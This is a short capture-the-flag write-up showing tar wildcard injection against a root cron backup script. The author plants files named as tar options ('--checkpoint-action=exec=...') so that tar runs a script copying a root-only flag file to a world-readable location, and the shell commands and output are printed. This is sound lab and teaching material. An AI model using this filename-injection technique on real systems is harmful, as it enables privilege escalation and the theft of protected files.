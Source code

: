 The `backup.sh` file is not a regular linux file :p

```bash
$ cat /backup.sh
#!/bin/sh

/bin/rm -rf /backups/*
cd /opt/src/ && /bin/tar -cvzf /backups/bck-src_`/bin/date +"%Y-%m-%d_%H%M"`.tar.gz *
/bin/chmod 440 -R /backups
```

Ok, the exploit is tar wildcard: https://thanat0s.trollprod.org/2014/07/et-hop-ca-root/

### Exploit

First, where is the flag:

```bash
$ ls -la /opt/src 
total 12
drwxrwxrwx 1 root root 4096 Dec 21 19:03 .
drwxr-xr-x 1 root root 4096 Dec 20 18:27 ..
-r--r----- 1 root root   26 Dec 20 18:24 .flag.txt
```

Second, exploit time :D

```bash
$ touch -- '--checkpoint-action=exec=sh install_suidbackdoor.sh' '--checkpoint=1'
$ echo 'cp /opt/src/.flag.txt /tmp/flag_maki' > install_suidbackdoor.sh
$ echo 'chmod 777 /tmp/flag_maki' >> install_suidbackdoor.sh
```

After a minute: 

```bash
$ ls -la /tmp/flag_maki
-rwxrwxrwx 1 root root 26 Dec 22 12:32 /tmp/flag_maki
```

### Flag

> IMTLD{R04d_T0_Th3_sW1tCH}